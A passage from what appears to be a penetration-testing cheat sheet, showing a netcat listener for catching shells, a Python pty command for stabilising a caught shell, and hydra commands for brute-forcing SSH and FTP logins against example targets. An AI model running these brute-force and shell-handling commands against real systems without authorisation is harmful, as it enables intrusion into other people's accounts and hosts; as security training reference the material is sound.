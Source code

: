 #### Listener with `netcat`

```console
$ nc -nvlp PORT
```

- `n`: IP addresses only (no DNS)
- `v`: verbose mode (`-vv` for very verbose)
- `l`: listen for incoming connections
- `p`: local port to listen on

For example:

```console
$ nc -nvlp 4444
```

#### Stabilise a Shell

Spawn an interactive terminal via Python:

```console
# First check if the system has Python
$ which python
/usr/bin/python

# Then, spawn a Python shell using pty
$ python -c "import pty; pty.spawn('/bin/bash')"

# Finally, export XTERM (allows you to clear terminal)
$ export TERM=xterm
```

**NOTE**: this works the same with `python3`.

## Bruteforcing

### `hydra`

```console
$ hydra -L <LIST OF USERNAMES> -P <LIST OF PASSWORDS> <TARGET> <SERVICE> -s <PORT>

OR

$ hydra -l <USERNAME> -P <LIST OF PASSWORDS> -t <TARGET> <SERVICE> -s <PORT>
```

```console
# Bruteforce SSH
$ hydra -L users.txt -P pass.txt 10.10.10.2 ssh -s 22 
$ hydra -L users.txt -P pass.txt ssh://10.10.10.2

# Bruteforce FTP
$ hydra -l admin -P passwords.txt 192.168.1.4 ftp -s 21
$ hydra -l admin -P passwords.txt ftp://192.168.1.4
```
